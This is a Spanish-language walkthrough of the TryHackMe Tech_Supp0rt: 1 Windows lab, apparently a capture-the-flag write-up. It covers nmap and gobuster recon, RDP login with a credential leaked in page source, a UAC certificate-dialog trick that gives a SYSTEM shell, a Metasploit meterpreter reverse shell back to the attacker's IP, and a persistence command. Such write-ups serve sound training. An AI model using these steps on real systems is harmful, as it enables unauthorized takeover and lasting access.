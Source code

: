 # Guía de Explotación - TryHackMe Tech_Supp0rt: 1

## 1. Reconocimiento

Comenzamos con el reconocimiento de la máquina objetivo mediante un escaneo de Nmap. Utilizamos el siguiente comando para identificar servicios y versiones:

```bash
nmap -Pn -sV -sC -T5 IP_MAQUINA_ATACADA
```

![Escaneo Nmap](./assets/image.png)

El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.

![Página IIS](./assets/image-1.png)

### Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![Resultado de Gobuster](./assets/image-6.png)

Uno de los directorios devueltos contiene una publicación con información potencialmente útil.

![Publicación encontrada](./assets/image-3.png)

Al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.

![Publicación - Ready Player One](./assets/image-4.png)

```txt
parzival
```

![Credencial descubierta](./assets/image-5.png)

### Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:

```txt
THM{HACK_PLAYER_ONE}
```

![Flag Usuario](./assets/image-8.png)
![Archivo Flag](./assets/image-9.png)

---

## 2. Escalada de Privilegios

En el escritorio de **Wade**, encontramos un archivo sospechoso llamado `hhupd`.

![Archivo hhupd](./assets/image-10.png)

Al ejecutarlo, nos solicita la contraseña del Administrador, la cual no conocemos. Sin embargo, si hacemos clic en `Show more details`, se muestra información adicional.

![Detalles del archivo](./assets/image-11.png)

Al examinar el certificado, encontramos la opción `VeriSign Commercial Software Publishers CA`.

![Certificado](./assets/image-12.png)

Al hacer clic, se abre una página web que podemos guardar en la máquina.

![Guardar página](./assets/image-13.png)

Al elegir `Guardar como`, seleccionamos `cmd` en el desplegable.

![Ejecutar CMD](image-14.png)

Esto nos otorga acceso a una **CMD con privilegios de SYSTEM** (`NT AUTHORITY\SYSTEM`).

![Shell SYSTEM](./assets/image-15.png)

Ahora podemos acceder al escritorio del Administrador y leer el archivo `root.txt`.

```bash
cd \Users\Administrator\Desktop
cat root.txt
```

![Archivo root.txt](./assets/image-17.png)

---

## 3. Post-Explotación y Persistencia

Ahora configuramos un shell inverso utilizando **Metasploit** con el módulo `exploit/multi/script/web_delivery`.

```bash
msfconsole
use exploit/multi/script/web_delivery
show options
```

Configuramos los valores adecuados:

```bash
set target 2
set lhost NUESTRA_IP
set lport 3389
set payload windows/meterpreter/reverse_http
```

![Configuración de Metasploit](./assets/image-18.png)

Ejecutamos el exploit:

```bash
run -j
```

![Ejecución del exploit](./assets/image-21.png)

Ejecutamos el comando en la máquina comprometida para recibir la conexión inversa:

![Ejecución en la máquina víctima](./assets/image-20.png)

Ahora tenemos acceso a una sesión **Meterpreter** en la máquina comprometida.

![Sesión Meterpreter](./assets/image-22.png)

Para asegurar persistencia en el sistema, ejecutamos:

```bash
run persistence -X
```

Esto nos garantiza acceso remoto continuo en caso de reinicio del sistema.

¡Máquina comprometida con éxito!